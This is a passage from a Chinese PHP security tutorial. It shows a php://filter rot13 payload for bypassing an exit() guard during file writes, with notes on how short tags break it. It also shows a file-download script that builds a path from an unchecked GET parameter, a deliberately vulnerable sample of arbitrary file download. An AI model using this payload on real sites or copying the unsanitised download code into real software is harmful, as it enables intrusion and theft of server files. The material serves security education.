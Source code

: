 **rot13 在开启短标签的时候会失败：**

```http
filename=php://filter/string.rot13/resource=moon1.php&content=<?cuc cucvasb();?>
```

```
<?cuc rkvg();<?php phpinfo();?> //开启短标签 导致 少了一个?> 导致php运行时出错
开启短标签之后除了<?php ?>，可使用更灵活的调用方法
<? /*程序操作*/ ?>
<?=/*函数*/?>
```

详细     https://ego00.blog.csdn.net/article/details/113094542

### 文件下载

示例：

```php
//download.php
<?php
include '../function/function.php';
if(!$_GET['file']){
    die("error");
}
download($_GET['file']);
```

```php
//function.php
function download($file_name){
    header("Content-type:text/html;charset=utf-8");
// $file_name="cookie.jpg";
    //$file_name="圣诞狂欢.jpg";
//用以解决中文不能显示出来的问题
    $file_name=iconv("utf-8","gb2312",$file_name);
    $file_sub_path=$_SERVER['DOCUMENT_ROOT']."/www.phpsec.com/data/";
    echo $file_sub_path."<br>";
    $file_path=$file_sub_path.$file_name;
//首先要判断给定的文件存在与否
    if(!file_exists($file_path)){
        echo "没有该文件";
        return ;
    }
    $fp=fopen($file_path,"r");
    $file_size=filesize($file_path);
//下载文件需要用到的头
    Header("Content-type: application/octet-stream");
    Header("Accept-Ranges: bytes");
    Header("Accept-Length:".$file_size);
    Header("Content-Disposition: attachment; filename=".$file_name);
    $buffer=1024;
    $file_count=0;
//向浏览器返回数据
    while(!feof($fp) && $file_count<$file_size){
        $file_con=fread($fp,$buffer);
        $file_count+=$buffer;
        echo $file_con;
    }
    fclose($fp);
}
```
